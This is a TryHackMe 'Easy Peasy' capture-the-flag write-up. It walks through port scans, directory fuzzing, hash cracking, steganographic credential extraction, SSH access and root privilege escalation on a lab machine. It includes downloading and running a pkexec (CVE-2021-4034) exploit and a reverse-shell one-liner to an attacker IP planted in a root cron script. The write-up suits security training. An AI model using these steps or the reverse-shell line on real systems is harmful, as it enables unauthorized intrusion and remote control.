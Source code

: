 ## Easy Peasy
https://tryhackme.com/room/easypeasyctf

## Enum
```
nmap -Pn -sC -sV 10.10.85.130 -vv

Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 nginx 1.16.1
|_http-server-header: nginx/1.16.1
| http-methods:
|_  Supported Methods: GET HEAD
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Welcome to nginx!


nmap -Pn 10.10.85.130 -p- --min-rate=1000

Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown

nmap -Pn -sC 10.10.85.130 -p 80,6498,65524 -A

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
|_http-title: Apache2 Debian Default Page: It works
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
```

```
ffuf -u http://ip.thm/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
________________________________________________

hidden                  [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 418ms]
index.html              [Status: 200, Size: 612, Words: 79, Lines: 26, Duration: 423ms]
robots.txt              [Status: 200, Size: 43, Words: 3, Lines: 4, Duration: 414ms]
:: Progress: [4713/4713] :: Job [1/1] :: 94 req/sec :: Duration: [0:00:50] :: Errors: 0 ::
```

```
ffuf -u http://ip.thm:65524/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
________________________________________________

.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 419ms]
.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 440ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 452ms]
index.html              [Status: 200, Size: 10818, Words: 3441, Lines: 371, Duration: 451ms]
robots.txt              [Status: 200, Size: 153, Words: 13, Lines: 7, Duration: 444ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 428ms]
:: Progress: [4713/4713] :: Job [1/1] :: 94 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
```

![image](https://user-images.githubusercontent.com/6504854/191743667-a9d97030-e9ba-4aa7-8deb-a8db0ea72372.png)

![image](https://user-images.githubusercontent.com/6504854/191750946-be95a8e7-235c-47bb-a994-1ace416aa24b.png)

🏴 https://md5hashing.net/

```
ffuf -u http://ip.thm/hidden/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
________________________________________________

index.html              [Status: 200, Size: 390, Words: 47, Lines: 19, Duration: 425ms]
whatever                [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 465ms]
:: Progress: [4713/4713] :: Job [1/1] :: 96 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
```

![image](https://user-images.githubusercontent.com/6504854/191743885-d0cc97af-bf9f-48e1-85c0-6af07df98f0f.png)

```
echo 'Z**********************==' | base64 -d
flag{*****_****}
```

![image](https://user-images.githubusercontent.com/6504854/191744628-48bcf926-03ba-45bb-9fc6-20553cfd8b8e.png)

![image](https://user-images.githubusercontent.com/6504854/191744804-e92b7394-2f69-4021-ad69-9e6ff6cec551.png)

![image](https://user-images.githubusercontent.com/6504854/191745200-cd9478f9-3eb1-4927-85f0-78c600f11ada.png)

![image](https://user-images.githubusercontent.com/6504854/191745814-d466f19e-84c7-42ce-9148-b682dd76bdcb.png)

![image](https://user-images.githubusercontent.com/6504854/191746012-16e0c479-ab26-4a2c-9e00-ba168a06ea96.png)

```
echo '940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81' > hash

john --wordlist=easypeasy.txt --format=gost hash
Using default input encoding: UTF-8
Loaded 1 password hash (gost, GOST R 34.11-94 [64/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
my***************** (?)
Session completed.
```

```
curl http://ip.thm:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg -o bi.jpg -v

file bi.jpg
bi.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 960x678, components 3

steghide extract -sf bi.jpg
Enter passphrase:
wrote extracted data to "secrettext.txt".

cat secrettext.txt
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```

![image](https://user-images.githubusercontent.com/6504854/191747592-8d698573-1eff-4d7f-9b19-203e2f0d5641.png)

## Flag
```
ssh -l boring ip.thm -p 6498
boring@ip.thm's password:

You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!

boring@kral4-PC:~$ cd /home/boring

boring@kral4-PC:~$ ls -la
total 40
drwxr-xr-x 5 boring boring 4096 Jun 15  2020 .
drwxr-xr-x 3 root   root   4096 Jun 14  2020 ..
-rw------- 1 boring boring    2 Sep 22 03:01 .bash_history
-rw-r--r-- 1 boring boring  220 Jun 14  2020 .bash_logout
-rw-r--r-- 1 boring boring 3130 Jun 15  2020 .bashrc
drwx------ 2 boring boring 4096 Jun 14  2020 .cache
drwx------ 3 boring boring 4096 Jun 14  2020 .gnupg
drwxrwxr-x 3 boring boring 4096 Jun 14  2020 .local
-rw-r--r-- 1 boring boring  807 Jun 14  2020 .profile
-rw-r--r-- 1 boring boring   83 Jun 14  2020 user.txt

boring@kral4-PC:~$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
s***{a0************}
```

![image](https://user-images.githubusercontent.com/6504854/191748147-9b959dc8-c06b-4b80-be62-097a6a365594.png)

```
boring@kral4-PC:~$ sudo -l
[sudo] password for boring:
Sorry, user boring may not run sudo on kral4-PC.

boring@kral4-PC:~$ ls -la /usr/bin/pkexec
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec

boring@kral4-PC:~$ wget 10.10.10.10/1.tar
Saving to: ‘1.tar’

boring@kral4-PC:~$ tar -xvf 1.tar
./cve-2021-4034
./README.md

boring@kral4-PC:~$ ./cve-2021-4034
# cat /root/.root.txt
flag{63*****************************}
# exit
```

### Another Path

```
boring@kral4-PC:~$ find / -user boring -type f 2>/dev/null
/proc/1390/task/1390/fdinfo/0
/proc/1496/patch_state
/var/www/.mysecretcronjob.sh
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/cgroup.procs

boring@kral4-PC:~$ ls -la /var/www/.mysecretcronjob.sh
-rwxr-xr-x 1 boring boring 33 Jun 14  2020 /var/www/.mysecretcronjob.sh

boring@kral4-PC:~$ cat /var/www/.mysecretcronjob.sh
#!/bin/bash
# i will run as root
boring@kral4-PC:~$ echo 'sh -i >& /dev/tcp/10.10.10.10/1111 0>&1' >> /var/www/.mysecretcronjob.sh
boring@kral4-PC:~$ /var/www/.mysecretcronjob.sh
/var/www/.mysecretcronjob.sh: connect: Connection refused
/var/www/.mysecretcronjob.sh: line 3: /dev/tcp/10.4.63.222/1111: Connection refused
```
![image](https://user-images.githubusercontent.com/6504854/191752500-dfd25820-3ee6-4ef7-bfc0-81c3e38e0980.png)

It showed connection refused but I succeeded to get shell.

Thank you for your time, Happy Hacking. 😄


